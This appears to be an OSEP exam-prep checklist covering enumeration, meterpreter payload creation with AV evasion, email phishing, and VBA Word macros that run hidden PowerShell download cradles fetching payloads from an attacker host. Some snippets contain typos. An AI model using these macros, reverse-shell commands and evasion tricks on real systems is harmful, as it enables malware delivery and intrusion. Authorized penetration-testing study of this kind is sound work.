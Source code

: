 # Checklist for OSEP

## Enumeration

- Switch on your apache server
- Identify External vs Internal vs Vault IPs
- Full nmap scan (TCP + UDP) against External Hosts
- Note hostnames and update /etc/hosts
- Re-scan against hostnames
- Hostnames usually mean something. Put a remark in the table. For e.g, note things like clients, devs, DB etc
- Web Services should be fully enumerated with feroxbuster/gobuster.
	- Check Source Code for possible reveal of tech stack (ie .NET Razer)
	- Login pages for default creds
	- Wordpress sites to be wpscan
	- file upload pages to be tested
- DevOps stuff like gitlab, Ansible, Artifactory should be noted down as they will likely play a part further on
- If there are fields for user input, please try SQL Injection, SSTI payloads. SQLMap can be very useful. For SSTI payloads, run the following:
```bash
# basically if the math resolves, it is vulnerable to code execution
{{4*4}}
@(3+2)
<%= 3 * 2 %>
```

## Meterpreter Payload Creation

- Use Get-Shellcode (https://github.com/gh0x0st/Get-Shellcode) to obfuscate ps1 meterpreter shellcode
- Slot that nice obfuscated shellcode into your ps1 shellcode runner. Remember to update the variables accordingly in the rest of the code. This has a 100% success rate on all OSEP Challenge Labs (CowMotors and DenkiAir included)
- if you are creating an .exe payload from csharp, use Sleep, non-emulated APIs (such as VirtualAllocExNuma) for sandbox evasion, use multiple byte XOR to encrypt your payload
- same idea for VBA
- for .hta code, it is jscript; XOR the shellcode, do dotnet2js, prepend an obfuscated jscript into the output .hta file from dotnet2js
- for prependmigrate, you need to set it up as a msfvenom option when creating a payload. Note that explorer may not always work if the target user is not an interactive user (such as svc accounts, IIS blah blah)
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=<kali ip> lport=443 prpendmigrateprocess=explorer.exe prependmigrate=true -f exe > evil.exe
```

### Catching Meterpreter Shells

- x86 for MSWord vectors, x64 for everything else
- Consider setting AutoRunScript in the advanced options of exploit/multi/handler to run a process migration upon establishing the meterpreter shell to evade AV
- if it doesnt work, you may wish to use prepend migrate which is another form of migration but done earlier in the process of establishing the shell (might be more unstable but allegedly more evasive)
```
msf6 (exploit/multi/handler) > set AutoRunScript post/windows/manage/migrate
```

## Email Phishing Vector
- Look out for hosts with smtp (Port 25 default) and see if there are any email addresses found
- Use smtp-user-enum if unable to find email addresses
- send email with swaks


## MSDoc Phishing
- if .doc related, start off with a simple ping payload to check connectivity and command execution
```vba
Sub MyMacro()
	Dim str As String
	str = "ping.exe <kali ip>"
	Shell str, vbHide
End Sub
```
- if the above fires, use a powershell download cradle to fire off a meterpreter shell. Note that for MSWord, you need a x86 payload!
```vba
Sub MyMacro()
	Dim str As String
	str = "powershell.exe -nop -ep bypass -c IEX(New-Object System.Net.WebClient).Downloadstring('http://<kali ip>/amsi.txt')"
	str = "powershell.exe -nop -ep bypass -c IEX(New-Object System.Net.WebClient).Downloadstring('http://<kali ip>/simplerunner.txt')"
	Shell str, vbHide
End Sub
```
- if (New-Object System.Net.WebClient) does not work you can use the following. Though if New-Object doesnt work, it is likely that IEX is disabled as well
```vba
Sub MyMacro()
	Set shel_obj = CreateObject("Wscript.Shell")
	shell_obj.Run "powershell.exe -ep bypass -c iwr http://kali/simplerunner.txt | IEX", 0
End Sub
```
- if the above fails, likely powershell is restricted in some way or your meterpreter shell is caught (check for hits to your apache server)
- Can consider a direct VBA Shellcode Runner (obfuscated shellcode) of course
- if not, you can use get the VBA to download your compiled executable and execute it with InstalUtil


